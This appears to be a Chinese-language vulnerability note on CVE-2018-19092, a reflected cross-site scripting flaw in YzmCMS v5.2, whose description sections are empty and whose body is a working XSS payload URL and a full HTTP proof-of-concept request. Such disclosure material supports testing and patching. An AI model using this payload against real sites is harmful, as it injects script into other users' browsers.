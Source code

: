 ```yaml
---
title: "（CVE-2018-19092）YzmCMS v5.2 xss漏洞"
id: zhfly3306
---
```


# （CVE-2018-19092）YzmCMS v5.2 xss漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

http://www.0-sec.org/search/index/archives/pubtime/1526387722/page/1.html

XSS payload: [http://www.0-sec.org/search/index/archives/pubtime/1526387722/page/1.html?tqh3l%22%3e%3cscript%3ealert(1)%3c%2fscript%3er6qt2=1](http://192.168.1.40/search/index/archives/pubtime/1526387722/page/1.html?tqh3l%22>alert(1)<%2fscript>r6qt2=1)

POC:

```
GET /search/index/archives/pubtime/1526387722/page/1.html?tqh3l%22%3e%3cscript%3ealert(1)%3c%2fscript%3er6qt2=1 HTTP/1.1
Host: www.0-sec.org
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://192.168.1.40/search/index/archives/pubtime/1526387722.html
Cookie: PHPSESSID=u0bh5qnr84qsu9aa0oj8vpkuk2 
```